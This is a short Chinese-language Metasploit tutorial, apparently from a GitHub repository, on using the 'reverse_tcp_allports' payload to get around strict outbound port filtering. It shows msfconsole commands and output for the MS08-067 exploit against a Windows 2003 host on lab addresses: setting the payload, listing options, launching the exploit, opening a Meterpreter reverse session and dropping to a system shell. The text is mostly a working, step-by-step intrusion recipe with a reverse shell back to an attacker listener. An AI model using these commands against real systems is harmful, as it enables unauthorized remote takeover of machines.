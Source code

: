 
### 全端口攻击载荷，暴力猜解目标开放的端口

若攻击的目标有非常严格的出站端口过滤，只允许防火墙开放个别特定的端口，其他端口一律关闭，很难判定哪些端口连接到外部机器上。这时候可以通过MSF对应的攻击载荷进行尝试，直到发现其中一个是放行的，进行端口连接成功为止。

**0x01 选择ms_08_067模块**

**0x02 选择`windows/meterpreter/reverse_tcp_allports`**

```javascript


msf exploit(ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports 
payload => windows/meterpreter/reverse_tcp_allports

```


设置target
```javascript


msf exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    10.10.10.130     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.10.134     yes       The listen address
   LPORT     1                yes       The starting port number to connect back on


Exploit target:

   Id  Name
   --  ----
   3   Windows 2003 SP0 Universal
```


**0x03 攻击**

```javascript

msf exploit(ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.10.134:1 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (957487 bytes) to 10.10.10.130
[*] Meterpreter session 3 opened 

meterpreter > shell
Process 5060 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\WINDOWS\system32>whoami
```